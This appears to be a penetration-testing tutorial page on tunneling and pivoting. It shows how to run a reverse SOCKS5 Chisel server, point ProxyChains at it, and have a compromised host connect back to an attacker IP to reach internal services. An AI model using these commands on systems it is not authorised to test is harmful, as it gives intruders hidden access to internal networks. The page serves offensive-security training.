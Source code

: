 ```yaml
---
description: chisel, proxychains & ssh
---
```


# Proxying

## Contents:

* [Chisel](proxying.md#chisel-and-proxychains-tunneling-and-pivoting)

## 🔀 Chisel & ProxyChains: Tunneling & Pivoting

Techniques: [https://attack.mitre.org/techniques/T1090/](https://attack.mitre.org/techniques/T1090/)

When working on **internal network enumeration** or **pivoting**, **Chisel** combined with **ProxyChains** allows you to **route traffic through a compromised host** and access restricted services.

***

### **1️⃣ Attacker: Start Chisel Server**

On your **attacking machine (Kali, Parrot, etc.)**, start a **Chisel server** that listens for reverse connections:

```bash
chisel server --reverse -p 9001 --socks5 -v
```

**📝 Explanation**

<table><thead><tr><th>Command</th><th>Description</th><th data-hidden></th></tr></thead><tbody><tr><td><code>--reverse</code></td><td>Allows reverse tunneling (victim connects back to attacker)</td><td></td></tr><tr><td><code>-p 9001</code></td><td>Runs the Chisel server on <strong>port 9001</strong></td><td></td></tr><tr><td><code>--socks5</code></td><td>Enables a <strong>SOCKS5 proxy</strong></td><td></td></tr><tr><td><code>-v</code></td><td><strong>Verbose mode</strong> for debugging</td><td></td></tr></tbody></table>

### **2️⃣ Configuring ProxyChains**

To tunnel traffic through the compromised host, edit **ProxyChains configuration** on the attacker’s machine:

**Edit: `/etc/proxychains.conf`**

```bash
nano /etc/proxychains.conf
```

**Scroll to the bottom and set:**

```bash
socks5 127.0.0.1 1080
```

`127.0.0.1 1080` → **SOCKS5 proxy is running locally on port 1080**

### **3️⃣ Victim: Connect Back to Attacker**

On the **compromised target**, download and execute Chisel:

```bash
chmod +x chisel
./chisel client 10.10.14.21:9001 R:socks
```

**📝 Explanation**

* Connects **back to the attacker’s Chisel server (10.10.14.21:9001)**
* `R:socks` → Creates a **SOCKS proxy tunnel**

### **4️⃣ Using ProxyChains for Access**

Once the tunnel is established, **route your tools through the compromised host** using ProxyChains.

**Example: Browse Internal Services**

```bash
proxychains firefox 127.0.0.1:8080
```

